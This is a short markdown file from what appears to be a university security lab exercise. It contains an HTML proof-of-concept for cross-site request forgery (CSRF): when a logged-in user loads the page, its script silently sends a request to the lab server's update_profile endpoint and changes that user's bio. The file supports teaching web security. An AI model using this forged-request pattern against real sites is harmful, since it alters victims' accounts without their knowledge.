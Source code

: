 # Second Laboratory (CSRF) Scripts

### Change Profile Bio (POC):

```html
<!DOCTYPE html>
<html lang="EN">
<head>
    <title>CSRF Attack</title>
</head>
<body>
    <script>
        const HTTP = new XMLHttpRequest();
        const URL = 'http://mustard.stt.rnl.tecnico.ulisboa.pt:12006/update_profile?age=&bio=NewBio';
        HTTP.open('GET', URL, false);
        HTTP.send();
    </script>
    <h1>You were Hacked!</h1>
</body>
</html>
```

- Log into `mustard.stt.rnl.tecnico.ulisboa.pt:12006`
- Visit Website containing above Code

